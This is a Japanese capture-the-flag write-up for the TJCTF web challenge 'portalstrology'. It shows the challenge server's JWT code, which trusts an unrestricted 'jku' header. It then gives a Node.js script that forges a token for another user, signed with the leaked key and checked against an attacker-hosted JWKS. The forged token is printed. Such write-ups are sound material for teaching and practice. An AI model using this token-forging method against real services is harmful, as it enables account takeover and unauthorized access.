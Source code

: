 # portalstrology:web:361pts
I applied to DNU this year, and the admission results are coming out on May 17! But I really want to know my decision now though. I heard that other colleges had problems with accidentally leaking college decisions, you think DNU did the same?  
Unfortunately, I forgot my password too, so you gotta figure that out as well. My username is `superigamerbean`.  
[dnu-financial-aid.tjc.tf](https://dnu-financial-aid.tjc.tf/)  

Downloads  
[server.zip](server.zip)  

# Solution
サイトとソースが渡される。  
May 17, 5 PM EDTに情報公開があるらしいがCTFが終わっている。  
DNU Financial Aid Center  
[site.png](site/site.png)  
ひとまず登録し、ログインすると申請していないといわれる。  
[finaid.png](site/finaid.png)  
おそらく問題文に書かれている`superigamerbean`でログインし、公開されていない未来の情報を読み取る必要がありそうだ。  
ソースは以下のようであった。  
```js
~~~
function generate_token(req, res, next) {
    const username = req.body.username
    const privatekey = fs.readFileSync(`${__dirname}/private/private.key`, 'utf8')
    const token = jwt.sign(
        {
            username,
        },
        privatekey,
        {
            algorithm: 'RS256',
            expiresIn: "2h",
            header: {
                alg: 'RS256',
                jku: process.env.ENV === "development" ? 'http://localhost:3000/jwks.json' : 'https://dnu-financial-aid.tjc.tf/jwks.json',
                kid: '1',
            }
        }
    )
    res.cookie("jwt", token)
    next()
}

function check_logged_in(req, res, next) {
    try {
        const token = req.cookies.jwt
        const decoded = jwt.verify(token, SECRET)
        res.redirect('/finaid')
    }
    catch {
        next()
    }
}

async function check_token(req, res, next) {
    try {
        const token = req.cookies.jwt

        const { header } = jwt.decode(token, { complete: true })
        const { kid } = header
        const jwksURI = header.jku

        await axios.get(jwksURI).then(function (response) {
            const signedKey = response.data
            const keySet = jwk.JWKSet.fromObject(signedKey)
            const key = keySet.findKeyById(kid).key.toPublicKeyPEM()

            const decoded = jwt.verify(token, key, { algorithms: ['RS256'] })

            res.locals.username = decoded.username
            res.locals.iat = decoded.iat
            next()
        })
    }
    catch {
        res.redirect('/logout')
    }
}
~~~
app.get('/finaid', [check_token, check_user_applied], (req, res) => {
    if (res.locals.iat >= 1652821200) {
        res.render('finaid', { flag: `${FLAG}`, username: res.locals.username, applied: res.locals.applied })
    }
    else {
        res.render('finaid', { flag: undefined, username: res.locals.username, applied: res.locals.applied })
    }
})
~~~
```
`iat`が`1652821200`以上であればflagが得られるようだ。  
パスワードを予測したログインなどはできるわけもなく、`iat`の条件も満たせないので、jwtの改竄を目指すこととする。  
ソースにprivate.keyが含まれているため、こちらを利用しjwtを改竄しようとするが失敗する。  
問題サーバのものと異なると予測し、サーバのjwksとローカルのjwksを比較してみる。  
```bash
$ curl https://dnu-financial-aid.tjc.tf/jwks.json
{
    "keys": [
        {
            "kty": "RSA",
            "n": "0m3czq66wDL6nUxIVKrS2jq6YCP8c4bcnB4HKIYDrheD2wDN7cU0MBwXWMXZkbJTlmyLjbRTEsaRzpIag-pqI_dfaV_EON_j3F6WCGkGJYqu-In5cPvQpk-zQbRIDVB1VDRq0J4jtgyW-wx6-crlUhFibqN772qAKC0S6rPX6bD_2zxjRxxgcugxiJKOnPt8MRSWH-e7oWZkhhwI6drqHEN04DyiHzhDXpn4CvBkWnWCyxNMw2nNRdzkemhBXZQXs7unMuJv242uIl2E0zu5hE0FJvPH111GbFlVN1h2r7QcgKvmTA0WC5sz-b7YSdAb9O6X6gwtAe_1aFr9cGXl0w",
            "e": "AQAB",
            "alg": "RS256",
            "kid": "1",
            "use": "sig"
        }
    ]
}
$ curl http://localhost:3000/jwks.json
{
    "keys": [
        {
            "kid": "1",
            "kty": "RSA",
            "e": "AQAB",
            "use": "sig",
            "alg": "RS256",
            "n": "i30G3xbJG_4e61yFwteP7A7uqLeS08eSwbqnCQgGEb0yr0qElOzrukB21JjjWeEf5dJeDMEy5-fVYgIMTpcaxOf9sumlkpLP-izwjRqcerui76DzFl0vimSGkwZzgTQzV7u1pRkpOxisakarjnVxX0483X7jIS1P2JaQYSfyAaNCJkbeheviMqll65OUOZf-r2CqwfGDxGMZlO4iB0PSkJnAtyn0WGj-Z5aO5t3QWAB7Z3pbJ7oA-KPMqV_x1xX9Bb3sKs-8rjuMuTgDwAY84xOaiJQ5tv7i7RsnztKi1NjleQRxflZPww7A5go5icLn2ls2D44TPT8KugdpAOk7aQ"
        }
    ]
}
```
やはり異なるようだ。  
これでは改竄できないと思いながらjwtを見ていると以下のようになっていた。  
![jwt.png](images/jwt.png)  
`"jku": "https://dnu-financial-aid.tjc.tf/jwks.json"`との指定がなされている。  
ソースより、サーバ側でこちらのチェックをしているようだが何の制限もないことがわかる。  
つまりこのjkuをローカルのjwksをホスティングしたものに変え、ソースとして配布されたprivate.keyで署名すると正規のjwtとして成り立つ。  
あとは`username`と`iat`を改竄してやればよい。  
まずは[Beeceptor](https://beeceptor.com/)でローカルと同じjwksをホスティングする。  
```bash
$ curl https://satoki.free.beeceptor.com/jwks.json
{
    "keys": [
        {
            "kid": "1",
            "kty": "RSA",
            "e": "AQAB",
            "use": "sig",
            "alg": "RS256",
            "n": "i30G3xbJG_4e61yFwteP7A7uqLeS08eSwbqnCQgGEb0yr0qElOzrukB21JjjWeEf5dJeDMEy5-fVYgIMTpcaxOf9sumlkpLP-izwjRqcerui76DzFl0vimSGkwZzgTQzV7u1pRkpOxisakarjnVxX0483X7jIS1P2JaQYSfyAaNCJkbeheviMqll65OUOZf-r2CqwfGDxGMZlO4iB0PSkJnAtyn0WGj-Z5aO5t3QWAB7Z3pbJ7oA-KPMqV_x1xX9Bb3sKs-8rjuMuTgDwAY84xOaiJQ5tv7i7RsnztKi1NjleQRxflZPww7A5go5icLn2ls2D44TPT8KugdpAOk7aQ"
        }
    ]
}
```
次に以下のsato_jwt.jsにてjwtを生成する。  
`_private.key`は作成してもよい(言うまでもないがjkuを変更する必要がある)。  
今回は面倒なのですべて配布されたソースのものを使う。  
```js
const fs = require("fs")
const jwt = require("jsonwebtoken")

const username = "superigamerbean";
const iat = 1652821200;
const privatekey = fs.readFileSync(`_private.key`, 'utf8')
const token = jwt.sign(
    {
        username,
        iat,
    },
    privatekey,
    {
        algorithm: 'RS256',
        expiresIn: "2h",
        header: {
            alg: 'RS256',
            jku: 'https://satoki.free.beeceptor.com/jwks.json',
            kid: '1',
        }
    }
);

console.log(token);
```
実行する。  
```bash
$ node sato_jwt.js
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCIsImtpZCI6IjEiLCJqa3UiOiJodHRwczovL3NhdG9raS5mcmVlLmJlZWNlcHRvci5jb20vandrcy5qc29uIn0.eyJ1c2VybmFtZSI6InN1cGVyaWdhbWVyYmVhbiIsImlhdCI6MTY1MjgyMTIwMCwiZXhwIjoxNjUyODI4NDAwfQ.VtvQQIvgJ5diSVAIfB52MMOYmTCEGygGPd4ichabdXSAlusReTLslzE7Ye4kaOdSz45tQpW8ry1kPBvzZlVu-haPSV3LXv6zvZwcAr7KwV4SnwTiqgWrbndj82iMLduO4vCa5D8nZYUfkvWOmi_upmr_exOm9HiJSsOUSYLqMyR9jmZCsduuRfz_MPlBCLbATZucZz7w22RspISdDF5RfP4XQI0r63-fAhu0jmeFgk8hmRU_WxdO_iVjnwmWCV80-kJTyM6zsIEdyGMkJJXDp7atplQiKa5WmKEGQNi-qHxZhozAMM2PrcUg109gUQngwLPrw7Y3pEwIZm8VDFeOMg
```
あとはjwtをcookieに設定してやればよい。  
`/finaid`にアクセスする。  
flag  
[flag.png](site/flag.png)  
ログインに成功し、flagが書かれていた。  

## tjctf{c01l3ges_plz_st0p_th3_l34k5}
